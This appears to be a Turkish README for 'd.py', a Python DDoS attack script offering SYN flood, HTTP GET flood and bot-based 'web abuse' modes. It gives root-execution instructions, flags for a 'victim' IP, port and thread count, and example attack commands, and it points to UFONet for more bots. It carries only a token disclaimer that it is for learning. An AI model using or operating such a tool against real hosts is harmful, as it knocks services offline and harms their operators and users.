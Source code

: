 # d.py // DDoS Saldırı Script'i
**d.py** SYN Taşması GET Taşması ve BOT Saldırı yöntemlerini kullanarak kurbana **DDoS** saldırısı gerçekleştirebileceğiniz bir programdır.Daha iyi sonuçlar için daha iyi bir internet bağlantısı ve birden fazla makineyle saldırı başlatmanız önerilir.

**Öğrenim amaçlıdır yaptığınız hiçbir illegal vs. işten sorumlu değilim**

# Yönetici Olarak Çalıştırma
Program **root** yetkileriyle açılmalıdır UNIX sistemlerinde bunu **sudo** yardımıyla yapabilirsiniz Windows sistemlerinde ise bir txt dosyasına komutları yazdıkdan sonra uzantısını .bat olarak değiştirip yönetici olarak çalıştırabilirsiniz.

# Kullanım


    Kullanım: d.py [--kurban IP] [--port PORT] [--thread ÇEKİRDEK]
    
      Parametreler:
        --kurban veya -k: Saldırıyı yapacağınız kişinin IP adresi
        --port veya -p: Kurbana saldıracağınız PORT numarası
        --thread veya -t: Her saldırı başına oluşturulacak çekirdek sayısı
        --syn veya -s: SYN Taşma Saldırısını metodunu aktive eder.
        --get veya -g: GET Saldırı metodunu aktive eder. Varsayılan saldırı tipidir.
        --bot veya -b: GET Saldırıları için BOT'ları aktive eder.
        --yardım veya -y: Yardım menüsünü gösterir.
    
      Örnekler:
        SYN Taşma Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --syn
        GET Taşma Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --get
        BOT Saldırısı:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --bot
        Karışık:
           sudo python3 d.py --kurban [IP ADRESI] --port [PORT NUMARASI] --thread [ÇEKİRDEK SAYISI] --bot --syn --get

# BOT'ların Ayarlanması
BOT'lar **bots.txt** isimli TXT dosyasının içerisine yazılır. BOT saldırıları **Web Abuse** metoduyla olur.
Daha fazla BOT istiyorsanız **UFONet** kullanabilirsiniz.
